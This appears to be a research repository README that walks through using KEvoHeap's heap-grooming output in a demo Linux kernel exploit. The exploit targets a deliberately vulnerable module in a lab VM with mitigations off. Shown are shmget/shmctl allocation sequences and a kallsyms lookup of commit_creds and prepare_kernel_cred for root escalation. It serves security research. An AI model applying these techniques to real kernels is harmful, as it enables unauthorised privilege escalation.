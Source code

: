 # Example Exploit

The demo exploit `./exploit/demo_exploit_with_noise.c` performs heap layout manipulation to shape the heap into an exploitable state. It uses the `shmget/shmctl` system calls to allocate objects in the kmalloc-256 cache. These calls trigger (de)allocations of `struct shmid_kernel` objects, which are of appropriate size. A suiting series of allocations and deallocations can be found with KEvoHeap. To do this, follow the steps under "Run KEvoHeap+QEMU+BPFTrace" in [RUNNING_KEVOHEAP.md](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/RUNNING_KEVOHEAP.md). 

KEvoHeap will generate candidates consisting of calls to the kernel module and `shmget/shmctl`, which will then be inserted into a general corpus programm which takes care of setup and teardown (cf. [/hlm.template](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/hlm.template)). The generated candidates are then build and executed in the QEMU VM. The distance of the target objects gets extracted via `bpftrace` and fed back to KEvoHeap. When a correct sequence has been found, it can be used in an exploit to perform the neccessary allocations to place both target objects next to each other. For testing, you can use one of the demo exploits and replace the existing allocation directives with the sequence found by KEvoHeap.

For simplicity's sake, the exploit assumes that SMEP, SMAP and KPTI are disabled. This is the case in the VM that you setup in the instructions in [RUNNING_KEVOHEAP.md](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/RUNNING_KEVOHEAP.md)

### Use result from KEvoHeap

A result from KEvoHeap could look like this:
```bash
$./bpf_evo_runner.sh
[*] Starting try number 1
...
Ping...
Ping...
Ping...
Ping...
...
Ping...
Ping...
Ping...
Ping...
Going into next gen after 72 tries
[!] Found solution!
int fengshui318 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui573 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui956 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui628 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui230 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui1249 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui569 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui1518 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui984 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui956, IPC_RMID, NULL);
shmctl(fengshui984, IPC_RMID, NULL);
shmctl(fengshui569, IPC_RMID, NULL);
shmctl(fengshui230, IPC_RMID, NULL);
sleep(1);
int fengshui370 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui318, IPC_RMID, NULL);
shmctl(fengshui1249, IPC_RMID, NULL);
sleep(1);
int fengshui1608 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui628, IPC_RMID, NULL);
sleep(1);
int fengshui1319 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui1518, IPC_RMID, NULL);
sleep(1);
int fengshui189 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui573, IPC_RMID, NULL);
shmctl(fengshui1608, IPC_RMID, NULL);
sleep(1);
int fengshui625 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui1319, IPC_RMID, NULL);
shmctl(fengshui189, IPC_RMID, NULL);
sleep(1);
int fengshui1253 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui934 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui625, IPC_RMID, NULL);
shmctl(fengshui370, IPC_RMID, NULL);
shmctl(fengshui934, IPC_RMID, NULL);
shmctl(fengshui1253, IPC_RMID, NULL);
sleep(1);
int fengshui61 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
ioctl(fd, VULN_ALLOC_OVERFLOW);
ioctl(fd, VULN_ALLOC_TARGET);

Fitness: 256
```

This solution can now be used in `demo_exploit_with_noise.c` for the function `do_heap_layout_manipulation(int fd)`. This means we will exchange the given content from `do_heap_layout_manipulation(int fd)` with the result from KEvoHeap:
```bash
$ vim +161 demo_exploit_with_noise.c
...
void do_heap_layout_manipulation(int fd){
    # remove the content and change it to
}
...
void do_heap_layout_manipulation(int fd){
	int fengshui318 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui573 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui956 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui628 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui230 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui1249 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui569 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui1518 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui984 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui956, IPC_RMID, NULL);
	shmctl(fengshui984, IPC_RMID, NULL);
	shmctl(fengshui569, IPC_RMID, NULL);
	shmctl(fengshui230, IPC_RMID, NULL);
	sleep(1);
	int fengshui370 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui318, IPC_RMID, NULL);
	shmctl(fengshui1249, IPC_RMID, NULL);
	sleep(1);
	int fengshui1608 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui628, IPC_RMID, NULL);
	sleep(1);
	int fengshui1319 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui1518, IPC_RMID, NULL);
	sleep(1);
	int fengshui189 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui573, IPC_RMID, NULL);
	shmctl(fengshui1608, IPC_RMID, NULL);
	sleep(1);
	int fengshui625 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui1319, IPC_RMID, NULL);
	shmctl(fengshui189, IPC_RMID, NULL);
	sleep(1);
	int fengshui1253 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui934 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui625, IPC_RMID, NULL);
	shmctl(fengshui370, IPC_RMID, NULL);
	shmctl(fengshui934, IPC_RMID, NULL);
	shmctl(fengshui1253, IPC_RMID, NULL);
	sleep(1);
	int fengshui61 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	ioctl(fd, VULN_ALLOC_OVERFLOW);
	ioctl(fd, VULN_ALLOC_TARGET);
}

```


### Update addresses

The hard coded adresss of `commit_creds` and `prepare_kernel_cred` needs to be updated with the current running kernel as written in the function `escalate_privs(void)`. Normally these addresses should be resolved dynamically (due to a leak) but in this case we want to focus on the heap layout manipulation.

```bash
$ sudo grep "T commit_creds" /proc/kallsyms
ffffffffb16effc0 T commit_creds 
$ sudo grep "T prepare_kernel_cred" /proc/kallsyms
ffffffffb16f0290 T prepare_kernel_cred
```

Next we can update the adresses:
```bash
$ vim +102 demo_exploit_with_noise.c
```

### Run exploit

Now after we updated the results compile the exploit and run it. Assuming that you are working on the VM that was set up for KEvoHeap, you want to make sure to use the user account "MyUser" instead of root.
```bash
$ make noise # Build the exploit
gcc demo_exploit_with_noise.c  -o demo_exploit_with_noise -static
$ cd ..
$ ./scp_to_user.sh ./exploit # Copy the folder to the user directory
$ ./user_ssh.sh # Login to vm as 'MyUser'
$ cd exploit
$ chmod +x demo_exploit_with_noise
$ ./demo_exploit_with_noise
```
